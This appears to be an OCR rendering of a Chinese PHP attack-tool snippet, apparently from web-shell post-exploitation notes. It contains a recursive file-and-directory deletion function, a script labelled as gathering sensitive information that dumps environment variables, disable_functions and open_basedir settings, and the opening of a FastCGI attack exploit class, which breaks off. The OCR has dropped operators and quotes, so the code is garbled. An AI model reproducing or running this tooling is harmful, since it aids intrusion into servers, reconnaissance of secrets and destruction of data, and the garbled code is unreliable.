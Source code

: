 function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.''.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir)  true  false;
    }
}

function File_Str($string)
{
    return str_replace('','',str_replace('','',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i  $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
不大行 php获取敏感信息的脚本：

php
printf(System %sn,php_uname());
printf(php_version %sn,phpversion());
printf(open_basedir %snn, ini_get('open_basedir'));
printf(disable_functions %snn, ini_get('disable_functions'));
printf(all_extensions );
foreach(get_loaded_extensions() as$key=$value){
printf(%s ,$value);
}
printf(nnENVIRONMENT );
foreach(getenv() as$key=$value){
printf(nn%s=%s,$key,$value);
}
foreach(ini_get_all() as$key=$value){
printf(nn%s == %s,$key,$value[local_value]);
}
exit();
​
攻击fastcgi exp

php
class TimedOutException extends Exception {
}
class ForbiddenException extends Exception {
}
class Client {
const VERSION_1 = 1;
const BEGIN_REQUEST = 1;
const ABORT_REQUEST = 2;
const END_REQUEST = 3;
const PARAMS = 4;
const STDIN = 5;
const STDOUT = 6;